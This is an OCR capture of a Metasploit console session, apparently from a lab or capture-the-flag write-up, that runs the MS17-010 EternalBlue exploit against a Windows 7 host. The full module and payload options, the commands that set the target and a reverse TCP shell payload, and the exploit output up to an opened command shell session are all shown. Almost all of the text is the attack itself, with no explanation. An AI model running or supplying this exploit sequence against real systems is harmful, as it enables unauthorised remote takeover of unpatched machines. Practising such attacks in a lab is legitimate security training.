 ```bash [metasploit]
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.179.6      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.72.117
RHOSTS => 10.10.72.117

msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp 
payload => windows/x64/shell/reverse_tcp

msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.179.6:4444 
[*] 10.10.72.117:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.72.117:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.72.117:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.72.117:445 - Connecting to target for exploitation.
[+] 10.10.72.117:445 - Connection established for exploitation.
[+] 10.10.72.117:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.72.117:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.72.117:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.72.117:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.72.117:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.72.117:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.72.117:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.72.117:445 - Sending all but last fragment of exploit packet
[*] 10.10.72.117:445 - Starting non-paged pool grooming
[+] 10.10.72.117:445 - Sending SMBv2 buffers
[+] 10.10.72.117:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.72.117:445 - Sending final SMBv2 buffers.
[*] 10.10.72.117:445 - Sending last fragment of exploit packet!
[*] 10.10.72.117:445 - Receiving response from exploit packet
[+] 10.10.72.117:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.72.117:445 - Sending egg to corrupted connection.
[*] 10.10.72.117:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.72.117
[*] Command shell session 1 opened (10.10.179.6:4444 -> 10.10.72.117:49191) at 2021-11-27 06:45:05 +0000
[+] 10.10.72.117:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```